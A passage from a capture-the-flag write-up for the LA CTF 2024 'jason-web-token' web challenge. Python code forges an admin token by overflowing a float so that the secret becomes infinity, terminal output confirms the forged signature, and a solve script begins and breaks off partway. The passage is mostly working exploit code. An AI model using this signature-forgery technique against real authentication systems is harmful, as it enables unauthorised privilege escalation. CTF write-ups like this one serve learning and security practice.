 ```python
if __name__ == '__main__':
    userinfo = {
        'username': 'foobar',
        'age': 123,
        'role': 'user'
    }
    jwt = JasonWebToken(userinfo)

    # print('[*] Generating new token...')
    # token = jwt.createToken()
    # print(f'[+] Token: {token}\n')
    userinfo = {
        'username': 'blah',
        'age': 1.8e+308,
        'role': 'admin',
        'timestamp': 1708409176
    }
    saltedSecret = float('inf')
    data = json.dumps(userinfo)
    newSignature = jwt.hash_(f'{data}:{saltedSecret}')

    hexedData = data.encode().hex()
    token = f'{hexedData}.{newSignature}'

    print('[*] Decoding the token...')
    jwt.decodeToken(token)
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|14:31:34(HKT)]
└> python3 jwt_signature_generator.py
[*] Decoding the token...
[*] User info: {'username': 'blah', 'age': inf, 'role': 'admin', 'timestamp': 1708409176}
[*] Signature from user's token: 243650229dd5a5726b747bc153d14271dee5425e358be5c94b74182667bfa6bb
[*] New signature: 243650229dd5a5726b747bc153d14271dee5425e358be5c94b74182667bfa6bb
[+] The token's signature is matched to the new one!
```

As you can see, our forged token's signature is now matched to the new one!!

**With that said, let's modify our test script into a solve script:**
```python
import hashlib
import json
import time
import requests
import re

class JasonWebToken:
    def __init__(self, baseUrl):
        self.DECODE_TOKEN_ROUTE = '/img'
        self.FLAG_REGEX_FORMAT = r'(lactf\{.*\})'

        self.USERNAME = 'givemeflag'
        self.AGE = 1.8e+308
        self.ROLE = 'admin'
        self.TIMESTAMP = int(time.time())
        self.userinfo = {'username': self.USERNAME, 'age': self.AGE, 'role': self.ROLE, 'timestamp': self.TIMESTAMP}

        self.baseUrl = baseUrl
        self.hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()

    def createForgedToken(self):
        saltedSecret = float('inf')
```